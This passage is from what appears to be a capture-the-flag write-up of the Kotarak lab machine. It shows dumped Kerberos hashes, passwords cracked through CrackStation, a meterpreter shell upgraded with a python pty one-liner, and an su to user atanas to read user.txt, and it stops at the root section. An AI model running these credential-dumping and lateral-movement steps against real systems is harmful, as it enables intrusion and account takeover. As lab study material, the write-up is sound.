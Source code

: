 WIN7$:des-cbc-md5:89a1673723ad9180
WIN7$:rc4_hmac:24473180acbcc5f7d2731abe05cfa88c
atanas:aes256-cts-hmac-sha1-96:933a05beca1abd1a1a47d70b23122c55de2fedfc855d94d543152239dd840ce2
atanas:aes128-cts-hmac-sha1-96:d1db0c62335c9ae2508ee1d23d6efca4
atanas:des-cbc-md5:6b80e391f113542a
[*] Cleaning up... 

root@kali:~# 
{% endhighlight %}

We can crack some of the hashes by using <a href="https://crackstation.net/">CrackStation</a>
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-01-14/2020-01-14-15-07-49.png)
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-01-14/2020-01-14-15-08-17.png)

Now we had the following credentials.
{% highlight shell %}
admin:f16tomcat!
atanas:Password123!
{% endhighlight %}

Then, move to the user "atanas".<br>
This time, the following credential worked.
{% highlight shell %}
atanas:f16tomcat!
{% endhighlight %}
{% highlight shell %}
meterpreter > execute -i -f /bin/bash
Process 3 created.
Channel 3 created.

python -c 'import pty;pty.spawn("/bin/bash")'

tomcat@kotarak-dmz:/$ su atanas
su atanas
Password: f16tomcat!

atanas@kotarak-dmz:/$
{% endhighlight %}

"user.txt" is in the directory "/home/atanas".
{% highlight shell %}
atanas@kotarak-dmz:~$ pwd
pwd
/home/atanas

atanas@kotarak-dmz:~$ cat user.txt
cat user.txt
93f844f50491ef797c9c1b601b4bece8

atanas@kotarak-dmz:~$ 
{% endhighlight %}


### 3. Getting Root
